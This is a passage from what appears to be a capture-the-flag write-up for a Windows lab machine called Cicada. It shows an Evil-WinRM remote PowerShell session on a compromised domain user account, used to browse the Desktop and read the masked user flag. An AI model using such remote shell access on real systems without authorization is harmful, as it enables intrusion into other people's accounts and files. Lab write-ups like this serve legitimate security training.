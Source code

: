```powershell
d-r---          5/8/2021   1:20 AM                Music
d-r---          5/8/2021   1:20 AM                Pictures
d-----          5/8/2021   1:20 AM                Saved Games
d-r---          5/8/2021   1:20 AM                Videos


*Evil-WinRM* PS C:\Users\emily.oscars.CICADA> cd Desktop
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> dir


    Directory: C:\Users\emily.oscars.CICADA\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---        11/25/2024   3:01 AM             34 user.txt


*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> type user.txt
*****USER_FLAG*****
```

* just move to Desktop dir and type the user.txt file...

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>
